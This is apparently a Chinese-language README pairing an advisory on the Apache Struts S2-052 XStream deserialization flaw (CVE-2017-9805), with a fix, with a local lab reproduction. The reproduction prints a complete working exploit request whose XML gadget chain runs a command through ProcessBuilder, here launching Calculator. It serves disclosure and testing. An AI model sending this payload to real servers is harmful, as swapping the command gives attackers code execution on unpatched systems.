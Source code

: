 
# St2-052 远程代码命令执行漏洞预警(CVE-2017-9805)

描述：当使用带有XStream处理程序的Struts REST插件来反序列化XML请求时，可能会发生RCE攻击 

CVE编号:CVE-2017-9805 

受影响的版本:Struts 2.5 - Struts 2.5.12

解决方法:升级到Apache Struts版本2.5.13，最好的选择是在不使用时删除Struts REST插件，或仅限于服务器普通页面和JSONs：

<constant name="struts.action.extension" value="xhtml,,json" />

由于应用的可用类的默认限制，某些REST操作可能会停止工作。在这种情况下，请调查介绍的新接口以允许每个操作定义类限制，那些接口是：
org.apache.struts2.rest.handler.AllowedClasses
org.apache.struts2.rest.handler.AllowedClassNames
org.apache.struts2.rest.handler.XStreamPermissionProvider

https://cwiki.apache.org/confluence/display/WW/S2-052


# S2-052的POC测试(原名：Tomcat部署war）
原文地址：http://blog.csdn.net/caiqiiqi/article/details/77861477

快照：https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png
![](https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png)

从struts2的官网下载最后受影响的版本struts-2.5.12，地址：
http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip
注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。
![](/image/1.png)
拿到struts-2.5.12-apps之后，将其中的app目录下的struts2-rest-showcase.war文件放到webapps目录下，我的是

/Library/Tomcat-8.5.15/webapps然后设置一下conf/server.xml文件即可。
![](/image/2.png)

这里把appBase设置为webapps目录，然后unpackWARs设置为true，这样就会自动解包xxx.war，autoDeploy也设置为true(热部署?)
然后就可以浏览器访问了。
直接输入
http://127.0.0.1:8080/struts2-rest-showcase/
会跳转，然后出现下面的页面，点击其中一个编辑，
![](/image/3.png)

然后将请求发送到burp，(我由于在FireFox上有代理插件，于是换到FireFox上了)点击”Edit”按钮，然后拦截请求，将请求中的Content-Type的值改为
application/xml,然后POST的数据用PoC中的xml内容代替。

晴天师傅的PoC

```bash
POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1663
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map> 
```


成功弹出计算器

![](/image/4.png)


然后可以看到页面一堆报错的

![](/image/5.png)
